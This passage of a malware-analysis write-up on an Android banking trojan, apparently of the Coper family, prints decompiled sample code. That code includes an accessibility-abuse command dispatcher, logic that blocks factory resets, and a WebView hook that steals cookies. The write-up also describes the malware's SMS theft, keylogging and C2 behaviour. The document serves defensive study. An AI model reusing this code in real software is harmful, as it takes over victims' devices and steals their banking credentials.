    public static final List f134class = Arrays.asList("cancelar", "cancel", "deny", "never", "nunca", "turn off", "отмена");

class Ccase extends AccessibilityService.GestureResultCallback {  
final /* synthetic */ String f1006fddo;  
	
	Ccase(String str) {  
		this.f1006fddo = str;  
	}  
	@Override // android.accessibilityservice.AccessibilityService.GestureResultCallback  
	public void onCancelled(GestureDescription gestureDescription) {  
		super.onCancelled(gestureDescription);  
	}  
	@Override // android.accessibilityservice.AccessibilityService.GestureResultCallback  
	public void onCompleted(GestureDescription gestureDescription) {  
		super.onCompleted(gestureDescription);  
	}  
}

private boolean srgjnsrfgjartgj(ArrayList arrayList) {  
	if (arrayList.isEmpty()) {  
		return false;  
	}  
	String str = (String) arrayList.get(0);  
	ClipboardManager clipboardManager = (ClipboardManager) this.f1005ifdf.getSystemService("clipboard");  
	if (clipboardManager == null) {  
		return false;  
	}  
	clipboardManager.setPrimaryClip(ClipData.newPlainText("label", str));  
	return true;  
}

public boolean rsjsadghfsfdghj(String str, ArrayList arrayList, p000abstract.Cnew cnew) {  
  str.hashCode();  
  switch (str) {  
		case "open_app_details":  
			 return apdmghpaiodfmhpadfmhpdmfkh(arrayList);  
		case "minimize":  
			 return m285case();  
		case "open_gp_settings":  
			 return apkdfmhpadmfhpadomfhgpewirh();  
		case "click_confirm":  
			 return m289default();  
		case "unlock_touch":  
			 return f();  
		case "scroll":  
			 return adgjsfgjsgdfjea(arrayList);  
		case "click_elem":  
			 return m291extends(cnew, arrayList);  
		case "open_app_gp":  
			 return adgpkhmdsapfghmaepfmdhgpasdm(arrayList);  
		case "quick_settings":  
			 return m284break();  
		case "lock_screen":  
			 return m290else();  
		case "long_click":  
			 return thgjpsmfghokamdgpjkmdghkmf(arrayList);  
		case "swipe_up":  
			 return c("up");  
		case "gesture":  
			 return spkfgmhapoemghapfgmhadgkmhpda(arrayList);  
		case "back":  
			 return m307try();  
		case "paste":  
			 return adpkfmhpeaoimhpdsogmh(arrayList);  
		case "power":  
			 return m303this();  
		case "swipe_down":  
			 return c("down");  
		case "swipe_left":  
			 return c("left");  
		case "toggle_split_screen":  
			 return m288const();  
		case "take_screenshot":  
			 return m287class();  
		case "set_unlock_data":  
			 return sartjsrtfjsrfjtsrtjgfhe(arrayList);  
		case "click_at":  
			 return m305throws(arrayList);  
		case "unlock_screen":  
			 e();  
			 return true;  
		case "swipe_right":  
			 return c("right");  
		case "apply_unlock_data":  
			 return m292final(arrayList);  
		case "recents":  
			 return m286catch();  
		case "show_toast":  
			 return a(arrayList);  
		case "notifications":  
			 return m294goto();  
		case "set_clip":  
			 return srgjnsrfgjartgj(arrayList);  
		case "set_text":  
			 return sfgjdgjtrfjgdtyrt(arrayList);  
		case "send_pattern":  
			 return rgjsrtfjktyfj(arrayList);  
		case "get_perm":  
			 return dgjfsdhadfjhadfh(arrayList);  
		default:  
			 return false;  
  }  
}
```
- **jxJN1jIkUAD**
	- The function ```m343extends()``` appears to handle a device factory reset operation in several languages, this could be used to make the application persistent even if a factory reset is performed on the device.
```Java
public void m343extends() {  
  if (m347goto(f156class)) {  
		String m306transient = com.vgsupervision_kit29.ifdf.m306transient(this.f1015fddo);  
		p000abstract.Cfor cfor = new p000abstract.Cfor();  
		if (m306transient.equals("es")) {  
			 cfor.m72break("restablecer configuración de fábrica");  
		} else if (m306transient.equals("tr")) {  
			 cfor.m72break("fabrika ayarlarına sıfırla");  
		} else if (m306transient.equals("ka")) {  
			 cfor.m72break("ქარხნული მონაცემების გადატვირთვა");  
		} else if (m306transient.equals("ar")) {  
			 cfor.m72break("إعادة ضبط المصنع");  
		} else {  
			 cfor.m72break("~factory reset");  
		}  
		if (this.f166new.dgjaertjardthjdgu(cfor) != null) {  
			 com.vgsupervision_kit29.ifdf.m302super();  
		}  
		if (m306transient.equals("ka")) {  
			 p000abstract.Cfor cfor2 = new p000abstract.Cfor();  
			 cfor2.m72break("დაუბრუნდით ქარხნულ მონაცემებს");  
			 if (this.f166new.dgjaertjardthjdgu(cfor2) != null) {  
				  com.vgsupervision_kit29.ifdf.m302super();  
			 }  
		}  
  }  
}
```
- **syemgiTqjuzK**
	- We can see a local class that extends the class```WebViewClient```, then it overrides the action ```onPageFinished()``` to steal all the cookies for that page.
	- Later on, on a function not present on this report we can see the following line ```settings.setUserAgentString("Mozilla/5.0 (iPhone android; CPU iPhone OS 10_3 like Mac OS X) AppleWebKit/602.1.50 (KHTML, like Gecko) CriOS/56.0.2924.75 Mobile/14E5239e Safari/602.1");```, which we personally found interesting, since the application is for android and constantly searches for Samsung.
```Java
private class Cnew extends WebViewClient {  
	  private Cnew() {  
	  }  
	  @Override // android.webkit.WebViewClient  
	  public void onPageFinished(WebView webView, String str) {  
			webView.setVisibility(0);  
			syemgiTqjuzK.this.m387catch("displayed", 5);  
			long unused = syemgiTqjuzK.f197catch = Cfinal.m71try();  
			if (str.equals("about:blank")) {  
				 return;  
			}  
			com.vgsupervision_kit29.Cnew.m355new(syemgiTqjuzK.this.f202new, "i19", "URL is displayed", 2);  
			com.vgsupervision_kit29.Cnew.m356private(syemgiTqjuzK.this.f202new, "i19");  
			String cookie = CookieManager.getInstance().getCookie(str);  
			String str2 = "URL: " + str + "; COOKIES: " + cookie;  
			Cextends cextends = new Cextends(syemgiTqjuzK.this.f202new);  
			if (syemgiTqjuzK.this.f1027ifdf.trim().isEmpty() || !(str.contains(syemgiTqjuzK.this.f1027ifdf) || cookie.contains(syemgiTqjuzK.this.f1027ifdf))) {  
				 cextends.m65else(syemgiTqjuzK.this.f1026fddo, str2, false);  
				 return;  
			}  
			syemgiTqjuzK.this.m387catch("submitted", 6);  
			long m71try = Cfinal.m71try() - syemgiTqjuzK.f197catch;  
			syemgiTqjuzK.this.m387catch("shown_for_" + m71try + "_sec", 2);  
			cextends.fddo(syemgiTqjuzK.this.f1026fddo);  
			cextends.m65else(syemgiTqjuzK.this.f1026fddo, str2, true);  
			syemgiTqjuzK.this.m395goto();  
	  }  

	  @Override // android.webkit.WebViewClient  
	  public boolean shouldOverrideUrlLoading(WebView webView, String str) {  
			return false;  
	  }  
 }
```
- Overall there is a lot more functions than the ones we presented, but since there are so many we focused on the ones that could help understand how the malware works and how it affects the device.
### Created Files
- Once the application runs, it creates several files, since that are some, we will only focus on the ones we find relevant.
- **/data/data/com.vgsupervision_kit29/app_webview/Default/Web Data**
	- On this file we can find the creation of a database in SQLite that has the some columns with suspicious names like **offer_reward_amount, masked_ibans_metadata, masked_ibans, bank_name, account_number, account_type**, which leads us to believe that the application stores bank information that might be exfiltrated.

### Application Behavior
- When we first open the application it first asks for some permissions and access to the accessibility feature as shown in the following picture. After that, the application makes a few more permission requests that get automatically accepted as the application has permissions to make gestures. After this, the application locks the user out of the device.
	- [First apk video analysis](videos/2025-03-18%2011-25-15.mp4)
	- 
## .so Files
#### Sections
- ```objdump -h libcyqcXW.so```
``` bash
libcyqcXW.so:     file format elf64-little

Sections:
Idx Name          Size      VMA               LMA               File off  Algn
  0 .note.android.ident 00000098  0000000000000238  0000000000000238  00000238  2**2
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
  1 .note.gnu.build-id 00000024  00000000000002d0  00000000000002d0  000002d0  2**2
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
  2 .dynsym       0000c0d8  00000000000002f8  00000000000002f8  000002f8  2**3
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
  3 .gnu.version  00001012  000000000000c3d0  000000000000c3d0  0000c3d0  2**1
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
  4 .gnu.version_r 00000040  000000000000d3e4  000000000000d3e4  0000d3e4  2**2
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
  5 .gnu.hash     000035bc  000000000000d428  000000000000d428  0000d428  2**3
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
  6 .dynstr       00018277  00000000000109e4  00000000000109e4  000109e4  2**0
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
  7 .rela.dyn     00013440  0000000000028c60  0000000000028c60  00028c60  2**3
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
  8 .rela.plt     00002328  000000000003c0a0  000000000003c0a0  0003c0a0  2**3
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
  9 .rodata       0005aaf4  000000000003e3d0  000000000003e3d0  0003e3d0  2**4
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
 10 .gcc_except_table 00004a94  0000000000098ec4  0000000000098ec4  00098ec4  2**2
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
 11 .eh_frame_hdr 00003c7c  000000000009d958  000000000009d958  0009d958  2**2
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
 12 .eh_frame     00016a80  00000000000a15d8  00000000000a15d8  000a15d8  2**3
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
 13 .text         0006e8d8  00000000000b8060  00000000000b8060  000b8060  2**4
                  CONTENTS, ALLOC, LOAD, READONLY, CODE
 14 .plt          00001790  0000000000126940  0000000000126940  00126940  2**4
                  CONTENTS, ALLOC, LOAD, READONLY, CODE
 15 .data.rel.ro  00007078  00000000001290d0  00000000001290d0  001280d0  2**3
                  CONTENTS, ALLOC, LOAD, DATA
 16 .fini_array   00000010  0000000000130148  0000000000130148  0012f148  2**3
                  CONTENTS, ALLOC, LOAD, DATA
 17 .init_array   00000010  0000000000130158  0000000000130158  0012f158  2**3
                  CONTENTS, ALLOC, LOAD, DATA
 18 .dynamic      000001d0  0000000000130168  0000000000130168  0012f168  2**3
                  CONTENTS, ALLOC, LOAD, DATA
 19 .got          000004d0  0000000000130338  0000000000130338  0012f338  2**3
                  CONTENTS, ALLOC, LOAD, DATA
 20 .got.plt      00000bd0  0000000000130808  0000000000130808  0012f808  2**3
                  CONTENTS, ALLOC, LOAD, DATA
 21 .relro_padding 00000c28  00000000001313d8  00000000001313d8  001303d8  2**0
                  ALLOC
 22 .data         000001d8  00000000001323d8  00000000001323d8  001303d8  2**3
                  CONTENTS, ALLOC, LOAD, DATA
 23 .bss          00001f00  00000000001325b0  00000000001325b0  001305b0  2**4
                  ALLOC
 24 .comment      000000cb  0000000000000000  0000000000000000  001305b0  2**0
                  CONTENTS, READONLY

```

- ```readelf -h libcyqcXW.so```
```bash 
ELF Header:
  Magic:   7f 45 4c 46 02 01 01 00 00 00 00 00 00 00 00 00 
  Class:                             ELF64
  Data:                              2's complement, little endian
  Version:                           1 (current)
  OS/ABI:                            UNIX - System V
  ABI Version:                       0
  Type:                              DYN (Shared object file)
  Machine:                           AArch64
  Version:                           0x1
  Entry point address:               0x0
  Start of program headers:          64 (bytes into file)
  Start of section headers:          1247120 (bytes into file)
  Flags:                             0x0
  Size of this header:               64 (bytes)
  Size of program headers:           56 (bytes)
  Number of program headers:         9
  Size of section headers:           64 (bytes)
  Number of section headers:         27
  Section header string table index: 26

```
### Decompiled Code Analysis
- A worthy mention, is that although if we try to open the .apk file with `unzip` command it asks for a password, which made us think that is was encrypted, what is not entirely true. There are some bits in each section header that define if the section requires a password to be viewed, if we alter this we could obtain some more classes.
	- In order to do this we used a script in Python, that is in the repository under the [SectionHeader.py](SectionHeader.py).
- After the the process of decompilation of the .so files, we searched the functions names on the .apk file using the application JADX and found that two of the following three methods were found. This could mean either that the remaining method could be used on the remaining .apk file or isn't used at all.
	- **Java_com_vgsupervision_1kit29_cosxo12G_k1lkB3m2AW**
	- **Java_com_vgsupervision_1kit29_cosxo12G_qo3ZokZN**
	- **Java_com_vgsupervision_1kit29_cosxo12G_qo3ZokZN**

- 
- During this part of the analysis we will present a picture with the original extracted code and a second picture  (to the right) with some variables renamed, some new structures that aid to understand the overall code.
- There are some changes that were preformed in all three main methods namely: the first argument is a `JNIEnv *`, the `thread_pointer` and `stack_canary` we know these since `tpidr_el0` is normal from the ARM architecture to get a thread pointer, these will be used to check for stack buffer overflows, the variable `some_library`since its passed as an argument to the function `dlclose()` which is used to close .so files and the variable `ret` since it is the value the function returns.
- **Java_com_vgsupervision_1kit29_cosxo12G_k1lkB3m2AW**
	- On this class we did the following changes:
		- `uVar2` to `ret`.
		- `local68` to `env`, since the variable assigned to the first value passed in the function, which is `jni_env`.
		- `lVar1` to `thread_pointer`.
		- `local50` to `some_library`.
		- `local48` to `some_string`, since the value assigned is "\n\n\t\n\n".
		- `local40` to `2_param`, since the value assigned is the second value if we don't count the `jni_env`.
		- `local38` to `stack_canary`, since this value is checked against the value of `thread_pointer` plus an offset, and if they are diferente it call a function called `__stach_chk_fail()`.
	- Overall comprehension of the method:
		- What we understood from the analysis is that this function is called at least two times, depending on the on the arguments passed, one generates the salt and the other generates the AES cipher.

- **Java_com_vgsupervision_1kit29_cosxo12G_oriE5Pc7**
	- Only the basic changes were made on this method, and since it isn't called in the main .apk file and it doesn't provide much information on it utility we wont focus on it. 

- **Java_com_vgsupervision_1kit29_cosxo12G_qo3ZokZN**
	- On this class we did the following changes:
		- `lVar1` to `thread_pointer`.
		- `uVar2` to `ret`.
		- `local58` to `env`, since the variable assigned to the first value passed in the function, which is `jni_env`.
		- `local40` to `some_lib`.
		- `local38` to `some_string`, same reason as before.
		- `local30` to `2_param`, since the value assigned is the second value if we don't count the `jni_env`.
		- `local28` to `stack_canary`, same reason as before.
	- Overall comprehension of the method:
		- The only relevant point of this method is the call to `get_DGA` function, according to our research it could stand for Domain Algorithm Generation, which is a way to create a large number of domain names, although were are not sure why this is done.

- There were some functions in these .so files that we found curious and analysed: **get_AES(), get_DGA() and get_salt()**
- **get_AES**
	- On this methods we did the following changes:
		- `pcVar2` to `*symbol_addr`, since this calls the function `dlsyn()` which is used to search for the named symbol in all objects loaded automatically.
		- `uVar3` to `func_re`, since this will be the value that function returns.
		- `local38` to `stack_can`.
		- `local48` to `symbol_name`, since the second argument of the function `dlsyn()` is a string with the function name.
		- `lVar1` to `thread_pointer`.
	- Overall comprehension of the method:
		- This is a function wrapper around the main function, that actually generates the AES cipher. This function could be a part of the second .apk file.

- The following functions follow the same flow oh thought as the previous one, they both are wrappers for the real function.
- **get_DGA**

- **get_salt**


## Analysis of the Second apk
- The files used to study the second .apk file are in the folder [behavioral analysis](/behavioral_analysis/com.hello.world/).
- In similarity with the first apk, this one also had the encryption bits set. To remove them, the [SectionHeader.py](SectionHeader.py) script was used again. From this, we found the first apk (deepkseep.apk) inside the second one, what suggested to us that this is actually the first stage and probably not harmful. However the problem arises when it asks for an update and installs the real malware and presents the behavior showed during the analysis of the first apk.
- [Second apk video analysis](videos/2025-03-19%2015-16-07.mp4)
- After analyzing the second apk we didn't find much with value although we found an interesting class **vfm.xummtau.humkhtpja.msjtm.gegchproi**, since it has a method called ```decrypt()``` with a hardcoded string being passed.
- At first, we tried to use the string **rqcejxtaevnftkfd** as a password for the apks but it didn't work what further suggests that the apks are not really encrypted and just set the encryption bits as a diversion.
```Java
public static void decrypt(File file, File file2) {
	try {
		FileInputStream fileInputStream = new FileInputStream(file);
		try {
			FileOutputStream fileOutputStream = new FileOutputStream(file2);
			try {
				InflaterInputStream inflaterInputStream = new InflaterInputStream(new BufferedInputStream(fileInputStream, 8192));
				try {
					InflaterOutputStream inflaterOutputStream = new InflaterOutputStream(new BufferedOutputStream(fileOutputStream, 8192));
					try {
						encryptOrDecrypt("rqcejxtaevnftkfd", 2, inflaterInputStream, inflaterOutputStream);
						file.delete();
						inflaterOutputStream.close();
						inflaterInputStream.close();
						fileOutputStream.close();
						fileInputStream.close();
					} finally {
					}
				} finally {
				}
			} finally {
			}
		} finally {
		}
	} catch (Throwable th) {
		throw new RuntimeException(th);
	}
}
```
## Analysis Summary
- **Key Host and Network Indicators of Compromise (IOCs):**
	- 
- **Key Functionality:**
	- **Device Control & Persistence:** Locks the screen, gains admin privileges, disables security settings, controls UI interactions, and hides its icon to avoid detection.
	- **Data Theft:** Reads and intercepts SMS messages (including OTPs), accesses contacts and call logs, steals clipboard data, captures keystrokes (keylogging), and extracts cookies for session hijacking.    
	- **Remote Command Execution:** Connects to a command-and-control (C2) server, registers the device as a bot, receives and executes remote commands, and maintains persistent communication.
	- **Security Evasion:** Disables Google Play Protect, bypasses SSL certificate checks, manipulates system settings, and prevents uninstallation or factory resets.
    - **Financial & Fraud Capabilities:** Sends phishing messages, makes unauthorized calls, disables notifications, and locks the device remotely—potentially for extortion or fraud.
- **Malware Type and Family**
	- According to [VirtusTotal](https://www.virustotal.com/gui/file/f35635ab05a8f0ff2e45a561e9aef6cb766fe62cd3216dc4ab5ca2425c58e1d7/community) this malware belongs to the Coper malware family.
- **Indicators of Compromise**
	- The first indicator of compromise is the [file hash](#static-analysis). Another indicator are the requests to the domains shown in the picture in [this section](#static-analysis), in the **Extenal Dependencies** subsection.
## References
- https://github.com/hluwa/frida-dexdump
- https://github.com/square/okhttp
- https://square.github.io/okhttp/
- https://developer.android.com/reference/javax/net/ssl/X509TrustManager
- https://developer.android.com/reference/android/content/BroadcastReceiver
- https://developer.android.com/reference/android/Manifest.permission
- https://developer.android.com/distribute/marketing-tools/linking-to-google-play
- https://www.virustotal.com/gui/file/f35635ab05a8f0ff2e45a561e9aef6cb766fe62cd3216dc4ab5ca2425c58e1d7/community
- https://malpedia.caad.fkie.fraunhofer.de/details/apk.coper
